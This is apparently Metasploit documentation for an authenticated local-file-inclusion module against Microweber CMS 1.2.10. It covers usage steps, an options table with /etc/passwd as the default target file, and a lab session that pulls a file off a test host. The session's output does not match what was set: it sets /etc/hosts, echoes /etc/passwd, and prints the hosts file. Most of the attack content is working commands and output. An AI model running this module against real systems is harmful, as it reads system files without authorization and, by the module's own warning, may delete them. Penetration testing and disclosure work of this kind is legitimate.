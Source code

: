 ## Vulnerable Applications
Microweber CMS v1.2.10 LFI (Authenticated) has been verified and fixed according to the maintainer of the project. You check out the vulnerability report:
https://huntr.dev/bounties/09218d3f-1f6a-48ae-981c-85e86ad5ed8b/

**The older versions of Microweber CMS might be vulnerable too. I've not tested the module against the other versions.**
If you want, you can follow the steps in the official vulnerability report to reproduce the vulnerability against the older versions. (not guaranteed)

## Verification Steps
- [ ] Start `msfconsole`
- [ ] Run `use auxiliary/gather/microweber_lfi`
- [ ] Set `RHOSTS`
- [ ] Set `USERNAME`
- [ ] Set `PASSWORD`
- [ ] Set `LOCAL_FILE_PATH`
- [ ] Run `exploit`
- [ ] Verify that you see `Checking Microweber's version.`
- [ ] Verify that you see `Microweber Version: 1.2.10`
- [ ] Verify that you see `You are logged in`
- [ ] Verify that you see `Uploading LOCAL_FILE_PATH to the backup folder.`
- [ ] Verify that you see `FILE was moved!`
- [ ] Verify that you see `Downloading FILE from the backup folder.`

## Options
```
msf6 auxiliary(gather/microweber_lfi) > options

Module options (auxiliary/gather/microweber_lfi):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   LOCAL_FILE_PATH  /etc/passwd      yes       The path of the local file.
   PASSWORD                          yes       The admin's password for Microweber
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                            yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT            80               yes       The target port (TCP)
   SSL              false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI        /                yes       The base path for Microweber
   USERNAME                          yes       The admin's username for Microweber
   VHOST                             no        HTTP server virtual host
```

## Scenerios
This module has been tested against Microweber CMS v1.2.10 installed on Ubuntu.

```
msf6 auxiliary(gather/microweber_lfi) > use auxiliary/gather/microweber_lfi
msf6 auxiliary(gather/microweber_lfi) > set username admin
username => admin
msf6 auxiliary(gather/microweber_lfi) > set password admin
password => admin
msf6 auxiliary(gather/microweber_lfi) > set rhosts 192.168.188.132
rhosts => 192.168.188.132
msf6 auxiliary(gather/microweber_lfi) > set local_file_path /etc/hosts
local_file_path => /etc/passwd
msf6 auxiliary(gather/microweber_lfi) > check

[!] Triggering this vulnerability may delete the local file that is wanted to be read.
[*] Checking Microweber's version.
[+] Microweber Version: 1.2.10
[+] 192.168.188.132:80 - The target is vulnerable.
msf6 auxiliary(gather/microweber_lfi) > exploit
[*] Running module against 192.168.188.132

[!] Triggering this vulnerability may delete the local file that is wanted to be read.
[*] Checking Microweber's version.
[+] Microweber Version: 1.2.10
[+] You are logged in
[*] Uploading /etc/passwd to the backup folder.
[+] passwd was moved!
[*] Downloading passwd from the backup folder.
[*] 127.0.0.1 localhost
127.0.1.1 ubuntu-srv-tk

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

[*] Auxiliary module execution completed
```
